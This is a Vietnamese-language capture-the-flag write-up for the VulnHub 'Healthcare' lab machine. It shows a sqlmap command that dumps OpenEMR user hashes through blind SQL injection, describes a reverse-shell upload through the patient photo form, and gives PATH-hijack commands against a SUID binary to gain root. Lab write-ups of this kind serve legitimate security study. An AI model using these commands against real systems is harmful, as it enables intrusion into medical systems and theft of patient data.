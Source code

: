 ```yaml
---
title: Healthcare Writeup - VulnHub
date: "2023-07-28 01:11:07"
categories:
  - CTF Writeup
  - VulnHub
tags:
  - hacking
---
```


Download [Healthcare VulnHub](https://www.vulnhub.com/entry/healthcare-1,522/){:target="\_blank"}.

## Enumeration

![Scan Ports](/assets/img/posts/Healthcare/scan-ports.PNG)
_Scan Ports and Services_

```shell
gobuster dir -u http://10.0.2.9/ -w /usr/share/wordlists/Seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30
```

![Gobuster](/assets/img/posts/Healthcare/gobuster.png)
_Directory fuzzing_

![Openemr login page](/assets/img/posts/Healthcare/openemr-login.PNG)
_Openemr login page_

## Exploitation

Đã biết ứng dụng đang chạy Openemr - một phần mềm mã nguồn mở, quản lý hành nghề y tế gì đó. Đặc biệt hơn, Openemr v4.1.0 chứa lỗ hổng unauthenticated blind SQL injection, có mã [CVE-2012-2115](https://www.cvedetails.com/cve/CVE-2012-2115/){:target="\_blank"}. Sau khi nhấn login, thông tin sẽ được xác thực qua `validateUser.php`. Nếu user tồn tại thì truy vấn sẽ luôn trả về ít nhất 1 hàng. Đồng nghĩa với việc ta có thể chèn payload SQL injection tại đây và thực hiện `Blind SQL Injection`.

Dùng `sqlmap` để khai thác:

```shell
┌──(kali㉿kali)-[~]
└─$ sqlmap -u '10.0.2.9/openemr/interface/login/validateUser.php?u=1' -D openemr -T users -C username,password --dump --batch
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.7.6#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org


.................

Database: openemr
Table: users
[2 entries]
+----------+----------------------------------------------------+
| username | password                                           |
+----------+----------------------------------------------------+
| admin    | 2de89a0a37f4a62dc4fa04f2637efcbba098ab44           |
| medical  | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) |
+----------+----------------------------------------------------+

```

Dump được 2 entries như trên, do tools đã crackhash được pasword của user `medical` nên ta dùng tài khoản này để login vô openemr luôn.

![Openemr Interface](/assets/img/posts/Healthcare/openemr-interface.PNG)
_Giao diện sau khi login Openemr_

## Remote Code Execution

Sau khi đã đặt chân vào trang quản trị của Openemr v4.1.0, chúng ta có thể khai thác vuln mới có mã [CVE-2011-5161](https://www.cvedetails.com/cve/CVE-2011-5161/){:target="\_blank"}, cho phép người dùng upload file bất kì và không có bất cứ validation nào. Điều này giúp chúng ta dễ dàng upload và chạy reverse shell.

Tìm thủ công nơi có thể upload file, khả năng nhất là nơi update thông tin của bệnh nhân/khách hàng. Tiến hành truy cập đến `Patient/Client`>`New/Search`.

![Create New Patient](/assets/img/posts/Healthcare/create-new-patient.PNG)
_Tạo mới 1 Patient_

Sau khi tạo xong, search và click vào Patient vừa tạo. Sau đó di chuyển tới `Documents` > `Patient Information` > `Patient Photograph`

![Patient A](/assets/img/posts/Healthcare/a.PNG)

![Upload Page](/assets/img/posts/Healthcare/upload-page.PNG)

Yah chính nó! Upload reverse shell php lên, chạy file và tạo 1 port listener tại máy local:

![Upload Revshell](/assets/img/posts/Healthcare/upload-revshell.PNG)

![RCE](/assets/img/posts/Healthcare/rce.PNG)
_RCE thành công!_

## Privilege Escalation

```shell
find / -perm -u=s 2>/dev/null
```

```
...
...
/usr/bin/healthcheck
...
...
```

Tiến hành tìm kiếm file SUID thì phát hiện file nhị phân trông lạ lạ này. Kiểm tra tệp này 1 chút:

```shell
sh-4.1$ ls -la /usr/bin/healthcheck
-rwsr-sr-x 1 root root 5813 Jul 29  2020 /usr/bin/healthcheck
```

File nhị phân này chạy dưới quyền root. Tất cả chỉ là thực hiện kiểm tra, Scan hệ thống, ổ đĩa,...

```shell
sh-4.1$ strings /usr/bin/healthcheck
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

strings file đó ra thì có xuất hiện 1 số câu lệnh hệ thống, các câu lệnh được gọi không phải đường dẫn tuyệt đối và PATH cũng không được set trong nó. Từ đó, các câu lệnh được gọi trong file này sẽ bị ta thao túng bằng cách tạo 1 file có tên trùng với 1 trong các câu lệnh đó, đồng thời set PATH để file của ta sẽ được thực thi thay thế.

```shell
sh-4.1$ cd /tmp
sh-4.1$ export PATH=$(pwd):$PATH
sh-4.1$ echo "/bin/bash" > clear
```

```shell
sh-4.1$ healthcheck
TERM environment variable not set.
System Health Check

Scanning System
eth2      Link encap:Ethernet  HWaddr 08:00:27:54:37:D4
          inet addr:10.0.2.9  Bcast:10.0.2.255  Mask:255.255.255.0
          inet6 addr: fe80::a00:27ff:fe54:37d4/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1481565 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1576879 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:219434428 (209.2 MiB)  TX bytes:1884801187 (1.7 GiB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:16436  Metric:1
          RX packets:160 errors:0 dropped:0 overruns:0 frame:0
          TX packets:160 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:0
          RX bytes:17440 (17.0 KiB)  TX bytes:17440 (17.0 KiB)


id
uid=0(root) gid=0(root) groups=0(root),416(apache)
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
[root@localhost tmp]# cd /
[root@localhost root]# ls
Desktop/    drakx/        healthcheck.c  sudo.rpm
Documents/  healthcheck*  root.txt       tmp/
[root@localhost root]# cat root.txt
Flag day ne: QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk=
[root@localhost root]# echo "QnJlYWtUZWFtX0ZsYWdfWE5YWC5DT01fQWhpaGk="| base64 -d
BreakTeam_Flag_XNXX.COM_Ahihi
```
